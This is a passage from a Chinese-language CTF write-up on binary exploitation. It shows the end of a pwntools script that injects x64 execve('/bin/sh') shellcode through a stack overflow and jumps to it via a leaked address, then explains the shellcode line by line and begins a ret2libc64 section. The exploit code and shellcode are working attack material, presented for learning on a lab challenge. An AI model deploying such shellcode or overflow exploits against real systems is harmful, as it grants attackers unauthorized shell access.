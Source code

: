 ```python
        xor	    rax, rax
        mov     al, 0x3b
        syscall
"""

shellcode = asm(shellcode)
shellcode += b'0' * (0xc8 - 0xa0 - int(size(shellcode)[:-1]))


conn.recvline()
storeRecv = str(conn.recvline(), 'UTF-8')

target = int(storeRecv[-13:], 16)
conn.recvuntil("overflow me!\n")
conn.sendline(shellcode + p64(target))

conn.sendline("./flag.exe 3190105871")
conn.interactive()
```

下面对 shellcode 进行分析：
```
sub	    rsp, 48							
xor     rdx, rdx
mov     rbx, 0x68732f6e69622f2f
shr     rbx, 0x8
push    rbx
mov     rdi, rsp
push    rax
push    rdi
xor	    rsi, rsi
xor	    rax, rax
mov     al, 0x3b
syscall
```

- 第 1 行，如前所述，调整 `rsp` 防止栈的增长覆盖 shellcode
- x64 程序依次通过通过 `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9` 这些寄存器传递参数，调用号存在 `al` 中。由于 execve 需要 3 个参数，因此使用前三个。
   - 第 3 行，我们将 `'//bin/sh'` 赋值给 `rbx`，并在第 4 行将其左移 8 位，从而在最后一个字节留出一个 `0` 来表示字符串的结束；随即在第 5 行我们将其压到栈上，并在第 6 行将此时 `rsp` 的地址赋值给 `rdi` 作为参数，在第 8 行压栈。
   - 第 9 行，我们将 `rsi` 值置为 0。
   - 第 2 行，我们将 `rdx` 值置为 0。
   - 第 7 行我们将 `rax` 压栈，在第 10 行清空 `rax` 的值，然后将 `0x3b` 赋值给 `al` 作为调用号。
   - 我们实际上执行了`execve("/bin/sh", 0, NULL)` 


### 02 ret2libc64
观察到源代码有 `read()`，而且大小比缓冲区大小大一点，因此可能可以攻击！

通过 checksec 注意到开启了 NX 保护，通过 ldd 发现有用库：
![image.png](./assets/1649255120622-0b078657-5f4f-4dc7-9d29-eb4988d8e21d.png)
